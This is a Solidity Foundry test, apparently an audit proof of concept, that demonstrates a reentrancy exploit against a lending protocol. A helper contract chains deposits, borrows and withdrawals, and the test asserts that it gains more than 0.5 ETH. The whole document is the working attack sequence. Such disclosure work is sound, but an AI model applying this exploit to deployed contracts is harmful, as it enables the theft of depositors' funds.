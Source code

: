 ```solidity
    function testExploitReentrancy() public {
        uint256 depositValue = 10 ether;
        uint256 borrowAmount = 2 ether;
        vm.deal(address(contractA), 2 ether);

        ORACLE_HUB_INSTANCE.setHeartBeat(WETH_ADDRESS, 100 days);

        POSITION_NFTS_INSTANCE.mintPosition();

        uint256 nftId = POSITION_NFTS_INSTANCE.tokenOfOwnerByIndex(address(this), 0);

        LENDING_INSTANCE.depositExactAmountETH{value: depositValue}(nftId);
        LENDING_INSTANCE.borrowExactAmountETH(nftId, borrowAmount);

        vm.prank(address(LENDING_INSTANCE));
        MockErc20(WETH_ADDRESS).transfer(address(FEE_MANAGER_INSTANCE), 1 ether);

        // check contractA balance
        uint ethBalanceStart = address(contractA).balance;
        uint wethBalanceStart = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
        //total
        uint totalBalanceStart = ethBalanceStart + wethBalanceStart;
        console.log("totalBalanceStart", totalBalanceStart);

        // deposit using contractA
        vm.startPrank(address(contractA));
        LENDING_INSTANCE.depositExactAmountETHMint{value: 2 ether}();
        vm.stopPrank();

       FEE_MANAGER_INSTANCE._increaseFeeTokens(WETH_ADDRESS, 1 ether);
        
        // withdraw weth using contractA
        vm.startPrank(address(contractA));
        LENDING_INSTANCE.withdrawExactAmount(2, WETH_ADDRESS, 1 ether);
        vm.stopPrank();

        // approve feemanager for 1 weth from contractA
        vm.startPrank(address(contractA));
        MockErc20(WETH_ADDRESS).approve(address(FEE_MANAGER_INSTANCE), 1 ether);
        vm.stopPrank();

        // borrow using contractA
        vm.startPrank(address(contractA));
        LENDING_INSTANCE.borrowExactAmount(2,  WETH_ADDRESS, 0.5 ether);
        vm.stopPrank();

        // Payback amount
        //499537556593483218

        // withdraw using contractA
        vm.startPrank(address(contractA));
        LENDING_INSTANCE.withdrawExactAmountETH(2, 0.99 ether);
        vm.stopPrank();

        // check contractA balance
        uint ethBalanceAfter = address(contractA).balance;
        uint wethBalanceAfter = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
        //total
        uint totalBalanceAfter = ethBalanceAfter + wethBalanceAfter;
        console.log("totalBalanceAfter", totalBalanceAfter);
        uint diff = totalBalanceAfter - totalBalanceStart;
        assertEq(diff > 5e17, true, "ContractA profit greater than 0.5 eth");
    }
```